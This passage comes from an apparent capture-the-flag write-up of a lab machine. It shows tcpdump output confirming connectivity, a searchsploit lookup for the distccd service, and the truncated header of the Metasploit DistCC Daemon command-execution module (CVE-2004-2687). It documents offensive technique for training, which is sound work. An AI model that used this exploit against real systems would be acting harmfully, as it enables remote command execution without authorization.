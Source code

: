 ```output
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
16:53:39.318980 IP 10.129.115.59 > 10.10.16.11: ICMP echo request, id 30249, seq 1, length 64
16:53:39.318992 IP 10.10.16.11 > 10.129.115.59: ICMP echo reply, id 30249, seq 1, length 64

```

Great now we see output there is *'listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes'*

---

### Port 3632 distccd

Let's go to use searchsploit tool and search that this service distccd is vulnerable

`searchsploit distcc`

|Exploit Title|Path|
|---|---|
|DistCC Daemon - Command Execution (Metasploit)|multiple/remote/9915.rb|

**Name**
DistCC Daemon Command Execution

**Description**
This module uses a documented security weakness to execute arbitrary commands on any system running distccd.

```rb
##
# $Id: distcc_exec.rb 9669 2010-07-03 03:13:45Z jduck $
##

##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# Framework web site for more information on licensing and terms of use.
# http://metasploit.com/framework/
##


require 'msf/core'


class Metasploit3 < Msf::Exploit::Remote
	Rank = ExcellentRanking

	include Msf::Exploit::Remote::Tcp

	def initialize(info = {})
		super(update_info(info,
			'Name'           => 'DistCC Daemon Command Execution',
			'Description'    => %q{
				This module uses a documented security weakness to execute
				arbitrary commands on any system running distccd.

			},
			'Author'         => [ 'hdm' ],
			'License'        => MSF_LICENSE,
			'Version'        => '$Revision: 9669 $',
			'References'     =>
				[
					[ 'CVE', '2004-2687'],
					[ 'OSVDB', '13378' ],
					[ 'URL', 'http://distcc.samba.org/security.html'],
```